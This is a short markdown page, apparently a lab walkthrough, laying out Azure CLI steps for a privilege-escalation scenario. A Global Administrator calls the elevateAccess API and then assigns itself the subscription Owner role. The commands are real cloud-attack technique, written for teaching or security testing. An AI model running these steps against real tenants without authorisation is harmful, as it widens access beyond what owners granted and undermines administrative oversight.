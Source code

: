 # Global Administrator Privesc Scenarios

## Scenario 1 steps:

#### 1) Login as the Global Admin

    az login 

#### 2) Get tenant-level access, then sign in again

    az login --allow-no-subscriptions 

#### 3) Exploit the Global Admin role to modify privileges to Azure resources

    az rest --method post --url "/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01" 

#### 4) Logout, then relogin

    az logout

    az login (Reauthenticate back)

    userPrincipalName=$(az ad signed-in-user show --query userPrincipalName -o tsv)

#### 5) Assign the subscription Owner role to the Global Administrator account

    az role assignment create --role "Owner" --assignee $userPrincipalName 

### The commands will be successful, proving that you have used your elevated Global Administrator role to modify permissions for Azure resources!

